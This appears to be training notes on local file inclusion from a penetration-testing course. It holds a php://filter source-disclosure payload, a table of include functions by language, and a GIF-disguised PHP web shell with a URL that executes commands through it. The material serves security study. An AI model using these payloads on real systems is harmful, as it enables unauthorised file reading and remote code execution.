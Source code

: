 ## Source Code Disclosure
```bash
php://filter/read=convert.base64-encode/resource=config
```

```bash
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```


# LFI and File Uploads

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `include`                    |        ✅         |      ✅      |       ✅        |
## Image Upload
#### Crafting Malicious Image
>[!NOTE]
>We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

```shell-session
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

#### Zip Upload
>[!NOTE]
> Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.
